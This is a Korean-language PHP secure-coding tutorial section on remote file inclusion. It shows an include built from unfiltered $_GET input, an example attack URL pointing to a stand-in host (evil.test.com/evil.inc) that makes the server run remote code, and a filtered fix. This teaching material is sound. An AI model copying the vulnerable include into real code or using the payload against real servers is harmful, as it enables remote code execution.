 # 5.5 코드 삽입 공격
오염된 데이터를 동적 인클루드의 주요 부분으로 사용하는 경우 매우 위험한 상황이 일어날 수 있습니다.
```
<?php
    include "{$_GET['path']}/header.inc";
?>
```
이는 파일 이름을 조작하는 것뿐만 아니라 공격자가 포함되는 리소스의 성격조차 변경할 수 있습니다. PHP에서는 파일 이외의 리소스도 인클라드할 수 있는 기능이 기본 값으로 설정되어 있기 때문에 다음과 같이 다른 리소스를 인클루드에 사용할 수 있습니다. (PHP에서 이 설정은 allow_url_fopen 지시문으로 제어합니다.)
```
<?php
    include 'http://www.google.com/';
?>
```
include에 http:/www.google.com/으로 사용된 소스 위치는 본래 서버에 있는 파일을 포함시킨 것입니다. 만약 Google이 돌려주는 소스가 PHP 코드라면 PHP 코드는 해석되고 실행될 수 있습니다. 즉, 공격자는 여러분의 보안에 심각한 치명타를 날리기 위해 이러한 기능을 이용할 수도 있습니다.
```
http://test.com/index.php?path=http%3A%2F%2F%Fevil.test.com%2Fevil.inc%3F
--> (http://evil.test.com/evil.inc?)
```
이 값은 공격자가 선택한 evil.inc의 코드를 포함시키고 실행시키게 되며 header.inc는 쿼리스트링으로 취급됩니다.
```
<?php
    include "http://evil.test.com/evil.inc?/header.inc";
?>
```
이와 같은 접근 방법을 사용하면 공격자가 include에 사용된 나머지 경로 이름이나 파일 이름(/header.inc)을 추측할 필요가 없으며 evil.test.com에서 나머지 값들을 복사하면 알아낼 수 있습니다. 공격자가 할 일은 희생자의 웹 서버에서 실행할 적절한 PHP 코드를 출력하는 evil.inc 스크립트를 작성하는 것뿐입니다.
다행히도 include나 require문에 필터링된 데이터만 사용하는 것으로 이런 공격을 막을 수 있습니다.
```
<?php
    $clean = array();
    /* $_GET['path']를 필터링해서 $clean['path']에 저장합니다. */
    include "{$clean['path']}/header.inc";
?>
```